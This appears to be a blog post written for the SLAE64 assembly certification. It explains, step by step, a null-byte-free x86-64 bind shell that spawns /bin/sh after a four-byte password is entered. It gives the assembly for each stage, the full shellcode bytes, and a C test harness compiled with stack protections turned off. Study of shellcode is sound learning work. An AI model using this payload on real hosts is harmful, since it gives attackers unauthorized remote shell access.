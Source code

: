 # Bindshell with Password

This assignment was split in two parts:
1. Make the BindShell-Shellcode from the class free of nullbytes
2. Create a BindShell-Shellcode which spawns a shell after a certain password has been entered

I first created a nullbyte-free version of the shellcode from the class and then extended it with an authentication mechanism. The shellcode consists of 8 stages:

## Create a socket

This part of the shellcode basically does:
```
socket(AF_INET, SOCK_STREAM, 0)
```

And is achieved by:
```
    xor rax, rax
    cdq
    push SYS_SOCKET
    pop rax ; RAX contains the socket() syscall
    push AF_INET
    pop rdi ; rdi contains the AF_INET parameter
    push SOCK_STREAM
    pop rsi ; rsi contains the SOCK_STREAM parameter

    SYSCALL
```

The comments should be self-explaining. Note that I made use of the ```push pop``` technique to fill the registers with the right values. The push pop technique avoids null bytes and is shorter then the ```mov``` instruction.
Also I used cdq to clear out the RDX register which is possible as RAX is 0 at this point.

## Bind the socket
Again the following piece of shellcode is equivalent to this C snippet:
```
bind(sockfd, const struct sockaddr *addr, 16)
```

Assembly:
```
    ; First set up the struct sockaddr_in on the stack
    push rdx        ; sin_zero
    add dx, PORT    ; Place the port in the struct
    shl rdx, 16     ; Shift the port to the right position
    add dx, AF_INET ; add the af_inet flag to the struct
    push rdx        ; Put the struct on the stack
    push rsp
    pop rsi         ; Rsi now points to the struct

    push rax        ; Rax still contains the created socket
    pop rdi         ; The socket is now in Rdi
    push SIZE_STRUCT
    pop rdx         ; Rdx does now contain the size of the struct

    push SYS_BIND
    pop rax         ; Rax equals the syscallnumber for bind

    SYSCALL
```

In order to create the struct I made use of shifting and used the lower bit registers to arrange the struct.

## Listen
C pseudocode:
```
; listen(fd, 1)
```
```
    push rax ; Rax should contain null as bind() is expected to work successfully
    pop RSI
    inc RSI  ; Rsi is now 1
    push SYS_LISTEN
    pop RAX  ; Rax has the syscallnumber for listen

    SYSCALL
```
Nothing surprising here, note that I rely on bind() returning 0 :-)

## Accept:
C pseudocode:
```
    ; accept(sockfd, struct sockaddr *addr, 16)
```
Assembly:
```
    push rsp ; Reuse old struct
    pop rsi  ; Rsi points to struct
    push SIZE_STRUCT
    push RSP
    pop RDX ; Pointer to the size of the struct in RDX
    push SYS_ACCEPT
    pop RAX

    SYSCALL
```

In this step I reused the old struct on the stack for the accept call. To do so I rely on the fact that the Rsp has the same value as it had during the bind syscall.

## Authentication
I first read 4 bytes from the new socket an then compare it to a defined constant.

To read the password I did this in C pseudocode:
```
    ; read(fd, *buf, 4)
```

Assembly:
```
    add RSI, 8 ; Make it point to sin_zero of sockaddr. We dont need this anymore
    push RAX ; Rax still contains the accepted socket
    pop RDI ; Rdi contains the new socket
    xor al, al ; Clear out rax
    push 0x4 ; Specify num_bytes to read
    pop RDX

    SYSCALL ; Do the read
```

Note that I store the read password in the sin_zero field of the sockaddr_in struct. I mean ... there are nullbytes already which mark the end of the password. :-)

To compare the entered password with the constant I did:
```
    cmp dword[rsi], PASSWORD ; Rsi still points to the sin_zero field which contains the entered pw.
    jne _burn ; Cause a sigsegv upon a wrong password
```

## DUP 2
The next step is to redirect stdin, stdout and stderr to the new socket. Otherwise we would not see any output from the shell as it prints out to stdout, not to the socket.

For this I created a loop which decrements a counter starting from 2-0. It starts from 2 as 2 marks stderr and 0 stdin.

Assembly:
```
_dup2:
   ; dup2(client, STDIN)
   ; dup2(client, STDOUT)
   ; dup2(client, STERR)

    push 3
    pop rsi

_loop:

    dec esi
    push SYS_DUP2
    pop rax
    SYSCALL

    jne _loop
```

## Finally call execve
This is a pretty standard way to call execve('/bin/sh', NULL, NULL)
```

    cdq ; Null out rdx. Rax should still be zero because the last dup2() redirected stdin.
    push rax
    mov rax, BINSH ; BINSH hexstring in rax
    push rax
    push rsp ; get a pointer to binsh
    pop rdi

    xor rax, rax
    mov al, SYS_EXECVE
    syscall
```

In order to test this shellcode I made use of the following C snippet:
```

#include <string.h>

char shellcode[] = "\x6a\x29\x58\x6a\x02\x5f\x6a\x01\x5e\x99\x0f\x05\x52\x66\x81\xc2\x11\x5c\x48\xc1\xe2\x10\x66\x83\xc2\x02\x52\x54\x5e\x50\x5f\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x50\x5e\x48\xff\xc6\x6a\x32\x58\x0f\x05\x54\x5e\x6a\x10\x54\x5a\x6a\x2b\x58\x0f\x05\x48\x83\xc6\x08\x50\x5f\x30\xc0\x6a\x04\x5a\x0f\x05\x81\x3e\x41\x41\x41\x41\x75\x22\x6a\x03\x5e\xff\xce\x6a\x21\x58\x0f\x05\x75\xf7\x99\x50\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x54\x5f\x48\x31\xc0\xb0\x3b\x0f\x05";

main(void)
{
        printf("Shellcode length: %d\n", (int)strlen(shellcode));

        /* pollute registers and call shellcode */
        __asm__ (        "mov $0xffffffffffffffff, %rax\n\t"
                         "mov %rax, %rbx\n\t"
                         "mov %rax, %rcx\n\t"
                         "mov %rax, %rdx\n\t"
                         "mov %rax, %rsi\n\t"
                         "mov %rax, %rdi\n\t"
                         "mov %rax, %rbp\n\t"

                         "call shellcode"       );
}

```

Compile:
```
gcc -m64 -z execstack -fno-stack-protector Test.c -o Test -no-pie
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.
http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert
Student ID: SLAE64-1581
